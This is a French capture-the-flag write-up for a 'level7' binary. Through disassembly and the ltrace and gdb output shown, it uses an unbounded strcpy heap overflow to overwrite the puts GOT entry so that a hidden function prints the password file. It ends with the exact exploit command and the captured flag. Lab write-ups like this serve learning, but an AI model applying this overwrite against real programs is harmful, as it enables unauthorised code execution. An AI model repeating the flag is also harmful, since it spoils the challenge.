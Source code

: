 



# level7


## description
- Il y a un exécutable **level7**.
- Lorsqu'on l'exécute sans arguments, il **Segfault**.
- Lorsqu'on l'exécute avec 2 arguments, il affiche "**~~**".

## Résolution

Avec la commande **info function** et **disas main**, on voit qu'il y a une fonction **m** qui n'est pas appelée.

       0x0804852a <+9>:     mov    DWORD PTR [esp],0x8
       0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
          0x08048559 <+56>:    mov    DWORD PTR [esp],0x8
       0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
On voit deux **malloc** de 8 bytes.
Ensuite il ya deux appel de **strcpy** pour copier **argv[1]** et **argv[2]** dans les variables allouées.

       0x080485af <+142>:   mov    eax,DWORD PTR [esp+0x18]
       0x080485b3 <+146>:   mov    eax,DWORD PTR [eax+0x4]
       0x080485b6 <+149>:   mov    DWORD PTR [esp+0x4],edx
       0x080485ba <+153>:   mov    DWORD PTR [esp],eax
       0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>

**strcpy** n'est pas protégée et va copier jusqu'à la fin de la chaine de caractère.

      0x080485cc <+171>:   mov    DWORD PTR [esp+0x4],edx
       0x080485d0 <+175>:   mov    DWORD PTR [esp],eax
       0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
       0x080485d8 <+183>:   mov    DWORD PTR [esp+0x8],eax
       0x080485dc <+187>:   mov    DWORD PTR [esp+0x4],0x44
       0x080485e4 <+195>:   mov    DWORD PTR [esp],0x8049960
       0x080485eb <+202>:   call   0x80483c0 <fgets@plt>

On peut voir qu'il y a une variable global c et qu'il utilise **fgets** pour stocker le contenu du **.pass**.

Notre objectif va être de réécrire le deuxième pointeur avec l'adresse de **puts**.
Ensuite avec le deuxième **strcpy**, on va placer l'adresse de la fonction **m** pour qu'a la place d'appeler **puts**, ca va appeler la fonction **m** qui va afficher le contenu de la variable **c**.

Tout d'abord, il faut trouver l'offset pour pouvoir réécrire le deuxième **malloc**(b[1]).
on va utiliser **ltrace** avec le pattern suivant.

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
l'offset est a **20**.

Ensuite il faut trouver l'adresse de puts dans la Global Offsets Table.

(gdb) info function puts
All functions matching regular expression "puts":

    Non-debugging symbols:
    0x08048400  puts
    0x08048400  puts@plt
    (gdb) disas 0x08048400
    Dump of assembler code for function puts@plt:
       0x08048400 <+0>:     jmp    *0x8049928
       0x08048406 <+6>:     push   $0x28
       0x0804840b <+11>:    jmp    0x80483a0
    End of assembler dump.
   l'adresse de **puts** est **0x8049928**.
```c
ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') 42
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b")                              = 0x0804a018
strcpy(0x08049928, "42")     
```
On a bien réussi à réécrire b[1].

On récupère l'adresse de la fonction m avec gdb , ce qui nous donne **0x080484f4**.

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```
ce qui nous donne le flag
```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```